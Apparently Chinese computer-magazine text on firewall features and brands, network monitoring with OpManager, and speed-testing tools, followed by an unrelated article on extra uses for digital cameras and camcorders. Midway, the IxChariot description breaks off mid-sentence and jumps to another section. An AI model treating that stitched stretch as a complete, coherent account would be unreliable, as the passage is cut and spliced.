目前，防火墙的系统管理体现在以下几个方面：①首先是集中式管理，分布式和分层的安全结构是将来的趋势。集中式管理可以降低管理成本，并保证在大型网络中安全策略的一致性。目前这种分布式防火墙早已在Cisco（思科）、3Com等大的网络设备开发商中开发成功，也就是目前所称的“分布式防火墙”和“嵌入式防火墙”。在新的安全体系结构下，分布式防火墙代表了新一代防火墙技术的潮流。②强大的审计功能和自动日志分析功能，便于发现潜在的威胁并预防攻击的发生。③网络安全产品的系统化。通过建立一个以防火墙为核心的安全体系，为内部网络系统部署多道安全防线。
从实际安全需求来看，人们选择防火墙的标准将主要集中在易于管理、应用透明性、鉴别与加密功能、操作环境和硬件要求、VPN的功能与CA的功能、接口的数量、成本等方面。目前，常见的网络防火墙品牌有：CISCO（思科）、Netgear（网件）、Juniper防火墙、趋势防火墙、东软防火墙、天融信防火墙、Check Point防火墙等。此外，还有lenovo（联想）、Founder（方正）、NOKIA（诺基亚）、ZyXEL（合勤）、H3C、卫士通等。市面上比较热门的防火墙产品包括：CISCO PIX-525/515E/501、H3C SecPath F100-C-AC、Netgear FVS338/114、Juniper NetScreen-5GT、天融信NGFW4000(TG-4207)、FORTINET FortiGate 100A等。以天融信公司的NGFW4000系列为例，这是一款广受市场认同的主流产品，它具有访问控制、内容过滤、防病毒、NAT、IPSEC VPN、SSL VPN、带宽管理、负载均衡、双机热备等多种功能。尤其是广泛支持路由、多播、生成树、VLAN、DHCP等协议，大大方便了用户实施对VOIP、视频会议、VOD点播及数据库等应用的使用和控制，适合网络结构复杂、应用丰富的大中型企业网络环境。如图11所示。

作为一种网络设备，防火墙的性能是应该重点考虑的问题。如果防火墙对原有网络带宽影响过大，无疑就是对原有投资的巨大浪费。辨别一款防火墙的性能的优势，可以参考权威评测机构或媒体的性能测试结果。防火墙除包含先进的鉴别措施，还应采用尽量多的先进技术，如包过滤技术、加密技术、可信的信息技术、身份识别及验证、信息的保密性保护、信息的完整性校验、系统的访问控制机制、授权管理等。一般应具备如下性能：

-   ①防火墙应该正确地执行自己的安全性策略，并能灵活地容纳新的服务和机构，改变所需的安全策略。
-   ②防火墙过滤语言应该是灵活的，编程对用户是友好的，还应具备若干可能的过滤属性，如源和目的IP地址、协议类型、源和目的TCP/UDP端口等。
-   ③若防火墙需Unix之类的操作系统，该系统的安全版本应该作为防火墙的一部分，当用其他安全工具时，要保证防火墙主机的完整性，而且该系统应能整体安装。防火墙及操作系统应该可更新，并能用简易的方法解决系统故障等。

此外，在管理防火墙设备的过程中，一定要明确本单位安全的实际情况，制定行之有效的安全策略，从而确保网络的安全、操作系统的安全、应用程序的安全和用户数据的安全。

通过上述讲解，我们对常见的网络设备有了一个比较系统的认识。除了上述网络硬件，在实际应用中，还有服务器、网络存储设备、工作站、打印机、机柜（或配线柜）、网络测试仪等，需要在网络实践中加以熟悉。另外，在网络建设中，综合布线可以说是真正的一次性投资，因为较大范围的网络布线需要破土施工，所以对布线系统的规划还应以目前所能达到的尽可能高的性能为标准。

#### 二、提高篇：巧借管理网络硬件设备

现在，网络设备越来越多，网络规模也越来越大，而管理员面临的困惑也越来越多。且看：高峰时段网络无故中断，挥汗如雨却难以锁定问题根源；同事抱怨网络速度缓慢，工作停滞不前而质疑网管能力；单位网站无法访问，导致上司发火、用户投诉；安全隐患层出不穷，病毒肆虐而找不到快速防范途径；带宽投资不断增加，网络情况依然如故而改善甚微……在网络维护实践中，这些问题十分常见而不断困扰着信息管理部门，挥之不去却又急待解决。
另外，随着IT和网络技术的发展、企业的信息化程度不断地提高，网络管理员越来越需要全面了解企业的网络活动，从而保证关键业务应用的畅通运行。尽管网络管理员很熟悉常用的网络诊断工具，通过经验获取诊断信息，查找问题的根源，确定网络故障点。但这对管理员的技术要求十分高，而且需要花费很长的时间。因此，如果能够通过一些优秀的网络维护工具，完成对网络设备和应用的实时监控，对网络故障进行提前预防，网络维护工作将会十分轻松而且高效。

##### 1. 巧用OpManager进行网络设备管理

本专题所推荐的一款软件AdventNet OpManager V6可以协助管理员随时了解网络状况，轻松完成网络维护工作，从而大大减轻网络管理员的工作。软件大小仅为31MB，而且有Windows/Linux等多个版本。
下载地址：http://www.adventnet.com.cn/products/opmanager/OpManager.html
进行网络维护和管理之前，首先需要安装这款软件。它采用了B/S的管理方式，安装完毕就相当于建立了一个本地Web服务器，用户通过本地Web界面即可完成管理工作。软件包含了许多实用的功能，如自动发现整个网络、分组设备，并显示在直观的图中，实时监控设备，在出现故障时发出告警，另外还提供了广泛的报表和图表。

第1步：安装OpManager。
安装过程中，软件会提示设置Web服务器的端口，如8060。启动服务并登录后，在浏览器地址栏中输入：http://localhost:8060，即可看到登录界面。用户名和密码都是默认的admin。如图12所示。

第2步：自动发现并显示需维护设备。
登录之后，系统引导用户进入自动发现向导。用户需要正确填写SNMP共同体字符串，不过很多设备都采用了默认的形式。如果你的路由器、交换机、服务器等设备使用的不是同一个SNMP共同体字符串，你可以写多个，中间用英文逗号隔开。

> 小知识
SNMP (Simple Network Management Protocol：简单网络管理协议)，它是一个标准的用于管理IP网络上结点的协议，用于局域网LAN和局域网基础配置。此协议包括了监视和控制变量集以及用于监视设备的两个数据格式：SMI和MIB。可以用于监测交换机、路由器流量、运行状态，以及控制这些设备。用户可以借助于OpManager软件“管理”页面中的“MIB浏览器”，确认设备的SNMP是否开启以及团体字符串是否正确。

在填写向导中，还需要填写发现的网络地址及其对应的子网掩码。可以添加多个网络地址，OpManager可以同时去发现多个网络。这些设置可以在上面的向导中完成，也可以在“管理”页面中进行详细设置。此外，还可以直接在“管理”页面中添加网络地址或添加设备。所有要在OpManager中管理的设备(特别是路由器、交换机)必须要能够ping通，并开启了SNMP协议。如图13所示。

示，发现了本网络中的服务器，以后即可针对它们进行重点管理。
通过面向对象管理的思想，网络管理员可以轻松找到自己需要关注的设备，并进行自定义操作。除了能够发现和管理服务器，实际设置过程中，还可以管理路由器、防火墙、交换机、打印机、普通桌面电脑、URL、UPS、无线设备、域控制器等，而这都是日常网络维护中的重要工作。

> 小知识
在维护过程中，产生网络故障的原因很多，我们可以根据网络故障的性质把网络故障分为物理故障与逻辑故障，其中物理故障又分为线路故障、网络设备故障和主机故障。发现故障后，根据故障现象确定故障源，确定故障源以后，识别故障类型是比较容易的。下面，我们结合实际例子进行讲解如何解决这些故障。

第3步：了解网络设备及网络状况。
点击网络中的一台设备，在打开的页面中，可以了解其名称、状态、IP地址、网络掩码、产生故障的时间、当前应答时间、丢包率等，还可以通过十分直观的饼图了解当前是否可用。当然，网络设备配置及网络故障诊断必须以网络原理、网络运行的知识为基础。在本网络中，选择一台名为cndes的电脑设备，点击并了解其详细信息。

第4步：通过网络命令进行维护。
很多管理员习惯于使用ping、traceroute等命令来测试线路是否通畅。但在日常维护中，面对大量的设备，往往会感觉不知所措。在OpManager中，在提供图形化管理的基础上，还提供了许多基本命令来进行诊断，使网络管理员感觉如虎添翼。这些命令都可以通过设备右侧的命令进行测试。例如，如果需要检查该线路上流量是否还存在，用ping 命令检查线路远端的计算机或路由器是否能响应；查询网络故障时，用traceroute命令跟踪看数据能走到哪个结点，确定故障线路的范围，是广域网线路故障还是局域网线路故障。
以下是一个解决网络设备故障的典型案例。在某综合网的一个二级机构内，通过数据专线连接到城域路由器，接到一串口并调通物理线路后，配置两端的端口，却怎么也不能通，再检查了一遍物理线路，检查两边的端口设置，也没发现问题，路由器应该也没问题，因为连接的其他线路正常。如此折腾许久，仍未解决问题。考虑到网络故障中很大一部分是由网络设备的故障引起的，如：光端机，路由器，交换机，Hub等，这些设备从每个模块到端口都有可能损坏，通过查看设备的告警信息和告警灯、状态灯信息，还是未能解决。最后，通过网络管理软件查找，逐步排除，缩小故障范围。在软件管理界面上，很快将故障点锁定在路由器的串口上，正好路由器还有一个空的串口，更换后正常。

第5步：对监视器进行测试。
如果测试成功，刷新快照页面之后，在快照页面上就会立即显示CPU利用率的饼图。如果有其他需要监视的资源或者系统服务、系统时间，都可以根据需要灵活添加；对于Linux/Solaris等操作系统，也可以通过telnet管理，操作和过程与上面对Windows机器的操作相同。如图14所示，即显示了详细的停机/正常时间图，具体参数包括总的正常时间、平均修复时间、平均故障间隔时间等，对网络主机管理来说，十分直观方便。

> > **小技巧**
在网络主机维护的过程中，最常见的现象就是主机的配置不当。如主机配置的IP地址与其他主机冲突，或IP地址根本就不在于子网范围内，或者没有设对网关等，由此可能会导致主机无法连通。主机的另一故障就是安全故障，比如，主机没有控制其上的finger， RPC， rlogin等多余服务。而攻击者可以通过这些多余进程的正常服务或漏洞攻击该主机，甚至得到超级用户的权限等。发现这类主机故障一般比较困难，特别是别人恶意的攻击。对于此类网络故障，也可以通过网络管理软件，监视主机的流量、或扫描主机端口和服务来防止可能的漏洞。

在手工维护网络的过程中，经常需要做好标签，避免拔插网线时造成误操作，降低故障率，但实际操作时仍然容易混淆，不便于线路故障的诊断和排查；在网络的性能管理中，没有第一手的性能数据，网络也无法对网络的运行状况和服务质量进行评估，领导询问时也没法交代，申请经费时也毫无凭据，因此，对网络维护者来说，需要有一份详细的网络报表。通过OpManager，可以自定义报表，帮助网络维护者了解当前网络状况。

第6步：自定义网络报表。
选择右侧的“显示自定义报表”链接，在新出现的窗口中，点击“选择设备”，选择新出现的某个设备，即可对其进行报表管理。例如，服务器的数据就包括了以下详细内容：服务器的CPU使用率、服务器的内存使用率、服务器的磁盘使用率、服务器的接收流量、服务器的发送流量、服务器的接收使用率、服务器的发送使用率、最少可用空间的磁盘、最多可用空间的磁盘、所有服务器的磁盘使用报表等。
选择某一个对象后，点击“显示报表”按钮，即可生成关于网络状况的报表。如果需要导出文件，可以点击“输出为PDF”连接，即可导出为PDF文件。这样，当网络故障出现的时候，网管人员就可以通过相关数据，了解到故障发生时的一些网络情况，从而推测出故障的原因所在，并找到解决问题的答案，大大提高了解决问题、排除故障的效率。

这款网络维护软件的功能十分强大，除了熟练操作软件，我们还要掌握网络的设计结构，包括网络拓扑结构、设备连接关系、系统参数设置及常用软件的使用等；熟练掌握各种不同厂商提供的网络设备的配置和使用，平时注意积累网络正常运行时的各种技术参数，以备在故障检测时进行查找和对比。通过这些知识的有效积累、有效结合，多多锻炼，就可以在网络管理中轻松运筹帷幄而决胜于千里之外了。

##### 2. 网络性能和速度测试方法

局域网络可谓随处可见，我们也十分关注其实际运行速度如何，比如两台计算机间的文件传输、访问对方计算机的快慢等。而决定局域网络速度的因素很多，又不可能通过简单的操作检测出速度的大小。因此，可以考虑使用第三方软件作为网络性能和速度测试方面的参考。目前较常见的测试工具有Internet Anywhere Toolkit、IxChariot、Netscantools、NetMedic、CyberKit、Dameware等。

###### (1) Internet Anywhere Toolkit

软件下载地址为：http://www.tnsoft.com或http://www.skycn.com/soft/2647.html。软件体积很小，但包含了20多种测试工具，能进行各种有用又有趣的测试。它所提供的网络工具套件包括：Ping、Finger、WhoIs、Echo Plus、TraceRoute、ThroughPut Test、Name Server LookUp、Time、Quote of theDay、Ping Scan、Port Scan、Router Table、E-Mail Verify、Active Connections等。软件提供的“数据返回测试”、“下载速度测试”“网络连接”等项目，对带宽测试很有帮助。就选项具体的测试来看，软件测试速度快，返回数据也较准确。路由表测试界面如图15所示。

###### (2) IxChariot V5.4

下载地址为：https://www.ixiacom.com/profile。随着各类网络技术、设备不断的推陈出新，ATM、FAST ETHERENT、TOKEN RING 及不同供应商、不同协议的硬件、软件都可能出现在同一个网络中，而各种不同的应用也都会使用相同的网络。Chariot的特色在于，它可以针对各种网络环境、各种操作系统进行测试。通过模仿各种应用程序所发出的网络数据交换，帮助网络设计或者网络管理人员对各种网络进行评估。通过Chariot附带的各种测试脚本，用户可以测试网络的数据流量、响应时间以及数据吞吐量等。简单的说，Chariot测试软件由三大部分所组成：Chariot控制台、测试脚本以及EndPoint。Chariot控制台可以选择所需要的测试脚本，并制定具体的测试范围，EndPoint可以根据测试的需要模拟出用户的网络数据操作，而且它需要安装在每个参与测试的网络客户端。软件大小为16MB，但从网## 3. 登峰造极：网络管理升级与方案选择

网管软件平台可以提供网络系统的配置、故障、性能及网络用户分布方面的基本管理，是网管系统的核心。在功能上，网管软件可以归纳为体系结构、核心服务和应用程序三个部分。通过提供一种通用的、开放的、可扩展的框架体系，提供网络搜索、查错和纠错、支持大量设备、友好操作界面、报告工具、警报通知和处理、配置管理等服务，再加入一些有价值的应用程序，网管软件可以让网络管理员随时了解企业网络的状况。那么，从网络升级的角度来看，网络管理员应该注意些什么呢？实际应用中，我们可以从以下几个方面来把握：

### (1) 以业务为中心，把握网络升级的需求

最根本的一条，我们必须知道网络使用的设备类型，网络是如何组织的。因此，首先要列出所有的网管需求，其中哪些是想要的，哪些是不想要的。通过需求表，我们可以清楚地知道现在到底需要哪些功能。毕竟，花很大的代价购买自己并不需要的服务是很浪费的。一般而言，具体的需求有：向管理员报告服务器上的流量状况、路由器上的流量过载或者网络出现瓶颈；能通过基于策略的网络管理主动采取行动，如重新启动停止的流程等；还应该能向有关人员发出警报，如通过电子邮件或寻呼等；能够提供方便而且强大的方法，显示将受影响的业务过程、业务部门甚至个人。

> 小知识
在管理网络硬件设备和应用的过程中，可以创建一个准确而全面的图像或“地图”。这个地图是针对整个网络的设备及其布局而言的。通过优先“发现”网络的所有设备，并绘制一份“地图”。现在，很多新型的网络管理应用软件能够自动生成这种地图，并能发现各类设备和链接的详细特征，例如速度、弹性和冗余性等，这样有利于加快故障检修时间和解决问题。

### (2) 为应用软件和服务提供环境

SLA（服务水平协议）是反映当前服务状况的一个重要指标，并且逐渐被当作网管产品的重要特性来看待。“一千个读者，就有一千个哈姆雷特”，同样，一千个企业，就有一千个具体的服务水平，如联机股票交易所的任务是保证数百万小时实时处理100%的准确性。所以，深刻理解本单位网络的这个重要指标具有重大的意义，有利于衡量服务水平与需求之间的匹配程度，从而使之用于报告、趋势分析和容量规划。

### (3) 可扩展性、易用性和集成性的结合，标准支持和协议的独立性

网络设备多，故障类型多，是网管实践中的一个典型问题。因此，能够集成第三方产品提供的功能是很重要的，因为大部分厂商都依赖于第三方厂商提供一些补充，来使它们的系统变得更为完整。因此，可扩展性成为用户选择网络管理解决方案的一个重要标准。全面网络管理解决方案应支持现有甚至新兴的标准，并能在各种类型的硬件和操作系统上运行，而不仅仅贴近某个厂商或某种操作系统。

### (4) 性能价格比

升级网络管理方面的软硬件时，我们不仅追求功能强大，还要效率高而且成本、开发费用和硬件需求低。从目前的市场行情看，国外软件占据着大份额市场，如CA的系统强调把网管和系统管理集成在一起；HP的OpenView把重点放在通过大量的第三方软件支持等。但这些国外软件的界面采用英文，推广和使用有一定的困难，经常需要一个专业的技术团队来管理这些大型网管系统，实施和应用非常复杂。相比之下，国内网管软件几乎全部中文界面，针对国内开发使用，有本土化优势，不需要专业的人员也可维护操作，适合国内客户。这些产品价格便宜，可以保证良好的售后服务，以及较低的维护和使用成本，有很好的性能价格比。但我们也应该看到，国内网管软件刚刚起步，还存在许多不完善的地方。

### (5) 长远规划和二次开发

实现网络管理是一个渐进的过程，在升级网管系统时，要重点考虑能方便升级额外的功能；符合工业标准，最好是基于SNMP的管理系统；支持第三方插件的能力，允许应用开发人员开发其他的模块，以支持其他公司的产品；支持专用数据库；数据库的统一等。另外，在实际应用中，并不能完全依赖于网管产品，由于网络系统的复杂和多变，现成的产品往往难以解决所有的网管问题，在条件允许的情况下，还要考虑二次开发的可能性。

### (6) 充分考虑新型网络报表功能

采用自动化方式执行程序化、单调的重复性报表管理任务，例如显示各种产品的软件版本的报表。大部分网络管理员都不喜欢执行冗长乏味的报表编制任务。新型报表功能可以自动生成报表，并允许利用它们执行更高级管理，从而使网络管理员成为策略规划师和分析师。

### (7) 安全性考虑

网络管理工具应该能够发现网络的薄弱环节以及访问热点，发现可疑的网络入侵者和潜在的网络安全问题，同时能够识别端口扫描攻击事件和连续网络登录失败事件。这些工具还应该能够收集来自交换机的重要数据，如利用SNMP协议的攻击。

### 数码相机、摄像机另类使用技巧

◆文/龚师傅

#### 1. 用数码相机作图片展示

现在的绝大多数数码相机都具备A/V输出功能，但很多数码相机用户从来就没用过，甚至根本就不知道。但如果我们仔细看看说明书，是不难使用这个功能的。而且，只要稍微动脑筋想想，就完全可以让数码相机的A/V功能发挥出意想不到的大作用。

你想没想过将需要向客户展示的产品照片随身携带，甚至在电视上展示给别人看？当然可以用笔记本电脑来完成这项工作，其实我们可利用手中的数码相机实现这个目的，而不必携带笨重的笔记本电脑。我们只需将图片文件处理为适当大小的JPEG文件放到相机存储卡的相关目录下即可。这样你就能将需要的各种图片放到一张存储卡中，随身携带到任何有电视的地方展示给他人欣赏。我们还可以灵活利用数码相机的A/V输出功能进行幻灯演示，将PowerPoint幻灯逐页另存为图形文件，重新放回数码相机中即可用于系统性的演示。有些数码相机还可以选择存储文件夹，甚至可以给每张照片配上一段声音或背景音乐（如SONY部分机型的照片“串串烧”功能），使用起来就更方便了。要注意尽管大多数数码相机都支持显示非本机拍摄的照片，但要求照片需符合一定的规则，比如文件的大小和命名规则必须与数码相机默认的一致，而且一定要存放在规定的文件夹下，文件格式和大小都应该采用与数码相机所拍摄照片一致等。如果有问题的话，可通过特定软件修改图像文件的EXIF数据，让相机认为是本机拍摄的照片从而正常显示。

#### 2. 让数码相机成为“MP4”

另外现在很多数码相机具备短片拍摄功能，其实我们不仅可以用数码相机展示照片，甚至可以用来作为视频播放设备。比如我过去使用的三洋MZ2这款数码相机就可以播放MOV格式的录像片段，但是用数码相机播放视频的程序比回放图片麻烦不少。具体方法如下：
将任何格式的视频文件（如AVI、MPEG）用动画编辑软件（如Premiere）剪接、加字幕并作一些换场及滤镜特效及配乐，再输出成“PHOTO JPEG QUICKTIME”的格式即可，注意影片尺寸需设置为320x240，15帧/秒，然后放到存储卡的DCIM\xxxSANDSVCLP目录下，文件名需符合相机的规则，MZ2即可播放此录像片段。其他相机的处理方法类似，不过要注意很多相机对每次播放的动画长度有限制，因此我们制作的动画片段不要太长。

另外用数码摄像机也能实现类似功能，不过一般在非DV带的机型上使用起来才比较方便。具体也需要事先转换化视频格式，这里就不详谈了。

#### 3. 数码相机做电脑摄像头

如果你的数码相机支持视频输出的话，那么将其作为摄像头用是绝佳的选择，特别适合在家庭室内使用。具体方法很简单，只要使用带AV输入功能的显卡或单独的视频输入卡，连接数码相机的AV输出接口，几乎任何一款数码相机都可以作为摄像头使用。

另外现在有些数码相机能够直接当作摄像头使用。用自带的USB线连接在电脑上，再安装驱动程序即可通过附带的软件来控制、调节所要的图像帧数、分辨率，使视频效果达到自己满意的效果。由于数码相机成像器件较为高档，用来做摄像头的效果，比普通USB摄像头要好得多。使用时要注意关闭相机的自动节电设置。

另外用数码摄像机也一样可以做摄像头，不仅可以通过AV输出端口连接电脑，还可以使用IEEE1394线连接电脑，来实现摄像头功能。


#### 4. 巧用数码相机输入文字

对于大量文字输入工作而言，使用OCR识别技术往往能大大提高效率，虽然OCR文字识别技术在扫描仪时代应用已经非常成熟，但一直未能与数码相机联系起来，主要原因在于过去数码相机拍摄画面的成像质量还无法保证图片细节的清晰还原，达不到使用OCR进行识别的理想效果；另一方面在于扫描仪与数码相机的成像感光方式存在很大差别，扫描仪的感光元件为水平放置，射入的为彼此平行的垂直光线，而数码相机使用的球面镜头，需经过聚焦成像，不可避免会造成文档页面边缘变形与模糊，从而影响OCR识别效果。但随着技术的进步，用数码相机同样能实现较好的OCR识别效果。

要用数码相机实现OCR识别，首先要拍摄出高质量的文本图片，需将焦距、白平衡、曝光度等参数，都调整到合适的状态，应尽量避免用广角端拍摄，用镜头中焦端，配合小光圈，以获得最佳的拍摄效果，此外如果相机支持，最好直接选择黑白模式进行拍摄。拍摄完成后，最好再使用一些常用的图像处理软件对图像进一步调整。比如以最高的分辨率来拍摄文稿，然后再利用图像软件将图片缩小为需要的尺寸，这样能够有效消除网纹。在Photoshop中，我们可以对图像的亮度、对比度等一系列参数进行设定，以提高OCR的识别率，当然具体如何调整，需通过反复的实际操作确定。另外还要选择合适的OCR软件，现在新版的OCR软件都支持灰度甚至全彩色图像文件的直接识别，例如尚书六号等。

#### 5. 用数码相机“扫描”底片

要把传统的胶片底片变成数字档案，最好的方法当然是用专门的底片扫描仪（价格不菲），或者普通扫描仪加上底扫适配器。其实在没有底片扫描器的情况下，数码相机也是一个不错的替代品，如果对输出精度要求不高的话，实践证明，用数码相机翻拍正片（幻灯片）可以轻松地获得不错的品质，用来上网发布相片已经够用了。

要用数码相机成功翻拍底片，器材上最重要有两点：一是使用合适的相机，关键是微距拍摄能力要强，最近拍摄距离最好在3厘米以内，且像素足够高，最好在7百万像素以上。普通产品也可以来翻拍底片，尽管效果稍差一些，但能满足计算机中观看及网上传递的需要。二是要有合适的辅助设备，比如Nikon数码相机的微距拍摄能力大多很强，因此专门为其Coolpix系列产品配备了底片翻拍架，用来翻拍底片效果相当不错，不过价格较高，且需配合专门型号的数码相机，其实我们完全可以土法上马，也能获得较好的底片翻拍效果。

主要是找到合适的光源，要求光度平均、色温正确。有条件的话可使用幻灯片观看器，也可用CRT显示屏，当作灯箱使用为底片照明。具体就是将显示屏调校为最亮及色温最白，并开启一个空白的窗口。在显示屏上贴上半透明纸一张，再将底片贴在其上，胶片四角最好用东西压住，保持平整，然后翻拍。拍摄时注意将相机设定到微距档，并用较小的光圈和镜头的中焦端，尤其注意关闭闪光灯，且用较小的压缩率，保证细节能清晰再现。相机焦平面要和底片平行，才能拍出变形小的图片。

一般来说正片的翻拍效果较好，翻拍后只需作简单的剪裁、调整处理，就可以得到不错的效果了。但如果翻拍的是负片，处理起来就比较麻烦一些，如果你的数码相机本身提供了“负片”效果，用来拍摄底片的话，可直接成为正片，否则可以用Photoshop等软件进行处理。翻拍负片不仅存在由负转正的问题，还有片基颜色的去除问题，要把片基的颜色分离出去，才能获得较好的翻拍效果。具体来说可找到拍摄图像的最黑和最白点，在Photoshop中打开Image→Adjust→Levels，在对话框中的右下角有三个滴管，最左边的滴管可设置图像的最黑点，最右面的滴管可设置图像的最亮点，分别点取这两个滴管，在图像中相应位置进行设置，偏色会立即改善，当然要得到完美的效果还需要进一步调整才行。如图1。



#### 6. 用DC、DV作移动存储器

现在大多数数码相机都能被WIN ME以上的操作系统直接识别为移动存储器，因此配合大容量存储卡，也可以作为移动存储器来使用。现在市面上销售的绝大多数数码相机都采用通用的数码照片存储标准。无论采用何种存储介质，存储卡都被看作是一个附加的磁盘，并且其文件结构完全兼容于PC的文件系统。要注意较老的数码相机不支持FAT32格式，因此也不能使用2G以上的存储卡。

数码摄像机则更适合作为移动存储器使用，一款名为“DV Streamer PRO”的软件，可以让你通过数码摄像机将PC或笔记本电脑上的数据储存在一卷DV录像带上。根据产品规格，你可以在一卷60分钟的录像带上最多储存15GB的数据。这套软件让DV录像机摇身一变成为录像带磁盘驱动器。这表示你只要花不到30元人民币，就能在一卷60分钟的DV录像带上储存8GB以上的数据。DV Streamer这套并不复杂的软件，试图在向我们展示一种废物利用的思路，磁带这种模拟时代的典型技术被他们转化到数字界面上来了。

实际上目前数码摄像机的存储载体已经从传统的磁带，向微型硬盘、可擦写DVD光盘和SD闪存卡等介质发展，也就是说，除了DV带以外，今后我们还完全可以通过数码摄像机将数据保存在微型硬盘、蓝光DVD光盘等其他介质上，这样你真的就可以不再需要配置光盘刻录机和移动硬盘了（SONY曾有一款光盘数码相机能直接成为一个外置的光盘刻录机用）。数码相机、摄像机也许今后将成为我们最好的数据备份设备。

#### 7. 用数码相机实现复印和传真

数码相机能够快捷方便地实现图像数字化，因此可以在很大程度上替代扫描仪的作用，其输入图片的效率比扫描仪要高得多，使用特殊配件还可以翻拍底片。有了数码相机和打印机，就可以替代复印机完成复印工作。把需要复印的资料用数码相机拍摄后，上传到电脑中用图像处理软件做适当调整，比如将其转化成灰度图像，调整大小和对比度等，再打印出来即可。不仅效果可以比复印机更好，而且能避免复印机工作时带来的污染。如果在开会或培训时用数码相机将黑板上书写的东西拍摄好后打印出来，就完全用不着购买价格昂贵的“电子白板”了。

另外配合MODEM，用数码照片拍摄的资料，还能通过合适的软件直接发送传真。尽管现在网络发达，EMAIL满天飞，但传统的传真收发，由于具备“白纸黑字”的可靠性，仍是正规办公不可缺少的信息传递手段。WIN95和WIN2K/XP操作系统都内置了传真功能，当然我们也可以使用WINFAX、BITWARE等第三方传真软件。WINDOWS下的传真软件一般是以仿真打印方式工作，安装好传真软件后，系统中就会多出一个传真打印机，用户只须把要发的内容用传真软件模拟的打印机向远端传真机打印即可。

#### 8. 强大的数码红外“夜视仪”

黑夜，没有灯光，周围景物黑黢黢的，眼睛只能隐约分辨出景物的轮廓，看不清细节。在这种环境里如果有一个夜视仪就好了，眼前的一切便能如白天似的呈现在自己的眼前。但一台即便是很普通的民用夜视仪也得上千元。省下这笔开支吧，借助你的DC或DV，只要有些许微光，便可以把这些黑暗的景物“看”清楚。数码相机可以实现这一功能的物质基础有两点，一是CCD天生对红外线比较敏感，具备400～1200nm的感光能力，涵盖了红外线的基本波长光谱。不过许多DC镜头后面都装有ICF（红外线截止镜），过滤了大部分红外线。而有少部分DC，更可以移开镜头后面的ICF镜片，以获取大量红外线，这类相机即使在黑暗无光的夜晚也能拍出较为清晰的红外线图像；白天加上红外线滤色镜后，也能进行红外线的拍摄和观察。最典型的红外相机要算索尼F707，据说它还可以透视轻薄的衣料，窥探隐私，当时闹得满城风雨。二是现在DC感光度设定越来越高，最高已经达到了惊人的ISO10000，足以捕获夜晚微弱的光线。具体使用时，我们可以将DC的感光度设定在最高。利用慢门，光圈一般要开至最大，除了在取景器上观察，如果将拍摄的图像下载到电脑里，通过处理还可以进一步提高图像亮度。

另外现在数码相机镜头的光学变焦最高已经达到了18×，最长焦距在500毫米以上，而数码摄像机的光学变焦能力更是达到了惊人的36×以上，再配合防抖功能和数码变焦，完全可以成为一台使用方便的数码望远镜，这样我们在观看演唱会、球赛、外出旅行时就不用再另外携带望远镜了。

#### 9. 数码摄像机与电视“联姻”

现在拥有录像机的家庭已经很少了，每当电视上有心仪的节目时就会感到束手无策。但如果你有数码摄像机，就不会再留下遗憾了。数码摄像机一般都带有AV和S视频输入端子，如果使用附带的视频线，将数码摄像机的AV IN和电视机的AV OUT端子连接起来，就可以录制当前的电视节目了。如果有精彩的球赛，就可以把它录在DV带上，以后再拿出来慢慢欣赏。另外，如果还有老式的录像带和录像机的话，还可以通过视频线连接录像机，把录像带上面的节目转录在DV带中，然后再采集到电脑上，进行后期处理和编辑，刻成VCD或者DVD保存起来。

用数码摄像机还可以抓拍高品质的电视画面，将数码摄像机与电视机用AV连接电缆或S视频电缆正确连接，待电视上出现需要的画面时，先轻轻按下静像拍摄键“PHOTO”，确认后再用力按下“PHOTO”键，就可将电视画面记录到存储卡中。同样，也可以抓拍其他视频播放设备如VCR、VCD、DVD播放的精彩画面。这种抓拍的效果比直接拍摄电视屏幕要好得多。

#### 10. 让相机、摄像机干好“副业”

数码相机具备一定的动态拍摄功能早已不是什么稀奇的事了。不过过去由于技术限制，大多数产品仅仅能断续拍摄几十秒的320×240/15fps无声动画，基本上没有多大的实用价值。但随着技术的发展，现在数码相机的动态拍摄能力得到了很大提升，很多产品的录像拍摄效果能达到640×480/30fps，完全与数码摄像机不相上下了。用数码相机拍摄影像，尽管总体看效果已经有了很大的改进，但在镜头的推拉变焦、录音保真、可录制时间、暗光线环境拍摄效果等方面还是比不上真正的DV。但如果在拍摄时我们注意下列问题，将最大限度改善DC的录像拍摄效果。

首先是选择合适的分辨率和帧频，一台注重录像拍摄效果的数码相机，一般会有四五种之多的录像格式可供设置。从实际使用效果看，重要拍摄使用640×480/30fps的设置是最为合适的，一般场景则使用320×240/15fps的设置，可以节省很多存储空间。其次要注意适当的曝光和变焦，合理使用相机的点测光、中央重点测光等功能。在适当的时候还可以考虑进行曝光补偿，提高ISO设置，改善在暗环境中的拍摄效果。拍摄录像时要注意稳字当头，尽量用广角端拍摄，不要随意推拉变焦，摇来晃去，手持拍摄时要端稳或寻找可支撑依靠的物品，双手把持，减少边走边拍的机会，对焦上建议选择随时对焦模式。此外适当进行数码变焦，弥补光学变焦的不足也是可以的，但数码变焦切不可超过三倍，否则将对录像质量造成较大的影响。最后要注意录像片段的拼接与后期制作，比如用Adobe Premiere做转场和添加字幕，用Windows Media Encoder进行压缩输出。最后可以刻录为VCD、DVD碟片。

而用数码摄像机拍摄数码照片也已不是什么新鲜事，以前有人认为DV的静像拍摄功能是个鸡肋，食之无味，弃之可惜。但随着技术的进步，现在摄像机的CCD像素已可达到200万以上，冲印5R照片效果已经不错。其实用摄像机拍摄数码照片还有自己的特色：第一是光学变焦大，目前主流DC一般最大只有10倍左右光学变焦，能达到15倍以上的产品屈指可数。而市场上的DV则很多都具备20倍以上的光学变焦，远拍效果很好；二是镜头光圈大，都提供了F2.0以上甚至F1.2等大光圈的镜头。在实际应用中，大光圈使得弱光效果相当棒；第三是能方便地从DV带上抓拍珍贵画面。总之让DC、DV干好“副业”（用好数码相机的录像拍摄功能和数码摄像机拍摄照片的功能），很多时候我们就能避免左手一只“机”、右手一只“机”的不便。

#### 11. 用数码相机进行GPS定位

尽管目前真正内置GPS功能的数码相机极少(仅有理光 Caplio 500SE GPS)，但已有部分产品可以使用外置的方式获得GPS定位功能。另外我们还可以用软件的方式来为照片加上GPS信息。在数码图片里加上GPS是很有意义的，比如你可以把周游全国的数千张照片，按照旅行路线整理成一个相册。

